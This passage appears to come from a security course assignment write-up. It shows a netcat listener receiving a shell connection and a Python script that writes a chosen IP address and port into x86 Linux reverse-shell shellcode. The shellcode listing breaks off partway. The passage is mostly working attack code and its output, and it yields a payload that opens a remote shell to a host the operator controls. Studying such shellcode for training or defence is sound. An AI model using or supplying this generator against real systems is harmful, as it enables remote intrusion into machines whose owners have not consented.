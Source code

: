 ```
absolomb@ubuntu:~/SLAE/assignments/2$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 34030)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

## Python Script for Configurable IP and Port

To make the IP address and port configurable some additions were made to the existing bind python script for the IP address. 

```python
#!/usr/bin/env python3
import sys
import struct
import socket
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("-i", "--ip")
parser.add_argument('-p', "--port")
args = parser.parse_args()


if (args.ip == None) or (args.port == None):
    parser.print_help()
    parser.exit()

port = int(args.port)
ip = args.ip

if port > 65535:
    print("Please enter a valid port number!")
    exit()

if port < 1024:
    print("You'll need to be root to use this port!")


port = struct.pack("!H", port)
port = ("{}".format(''.join('\\x{:02x}'.format(b) for b in port)))

ip = socket.inet_aton(ip)
ip = str(ip).lstrip("b'")
ip = ip.rstrip("'")

if "\\x00" in ip:
    print(" Nulls in selected IP address!")
    exit()
if "\\x00" in port:
    print(" Nulls in selected port!")
    exit() 

shellcode = """
\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31\\xc9
\\x51\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80
\\x89\\xc7\\xb0\\x66\\x5b\\x68%s
\\x66\\x68%s
\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57
\\x89\\xe1\\x43\\xcd\\x80\\x87\\xdf\\x6a
\\x02\\x59\\xb0\\x3f\\xcd\\x80\\x49\\x79
```